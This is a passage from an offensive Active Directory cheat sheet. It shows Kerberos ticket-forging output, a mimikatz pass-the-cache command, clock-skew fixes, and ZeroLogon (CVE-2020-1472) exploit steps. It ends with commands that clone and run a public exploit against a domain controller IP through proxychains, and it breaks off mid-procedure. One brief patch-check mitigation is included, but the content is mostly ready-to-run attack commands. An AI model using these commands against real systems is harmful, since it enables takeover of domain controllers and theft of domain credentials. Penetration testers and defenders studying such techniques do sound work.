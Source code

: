```powershell
  [+] Receiving TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Parsing TGS-REP from msfdc01.metasploitable.local... Done!
  [+] Creating ccache file 'TGT_user01@metasploitable.local.ccache'... Done!
```

Then use `mimikatz` to load the ticket.

```powershell
mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
```

:warning: If the clock is skewed use `clock-skew.nse` script from `nmap`

```powershell
Linux> $ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

Linux> sudo date -s "14 APR 2015 18:25:16" 
Windows> net time /domain /set
```

#### Mitigations

* Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

### From CVE to SYSTEM shell on DC

> Sometimes you will find a Domain Controller without the latest patches installed, use the newest CVE to gain a SYSTEM shell on it. If you have a "normal user" shell on the DC you can also try to elevate your privileges using one of the methods listed in [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)


#### ZeroLogon

> CVE-2020-1472

White Paper from Secura : https://www.secura.com/pathtoimg.php?id=2055

Exploit steps from the white paper

1. Spoofing the client credential
2. Disabling signing and sealing
3. Spoofing a call
4. Changing a computer's AD password to null
5. From password change to domain admin
6. :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

* `cve-2020-1472-exploit.py` - Python script from [dirkjanm](https://github.com/dirkjanm)
  ```powershell
	# Check (https://github.com/SecuraBV/CVE-2020-1472)
	proxychains python3 zerologon_tester.py DC01 172.16.1.5
	
  $ git clone https://github.com/dirkjanm/CVE-2020-1472.git

  # Activate a virtual env to install impacket
  $ python3 -m venv venv
  $ source venv/bin/activate
  $ pip3 install .
	
  # Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
  proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5

  # Find the old NT hash of the DC
  ```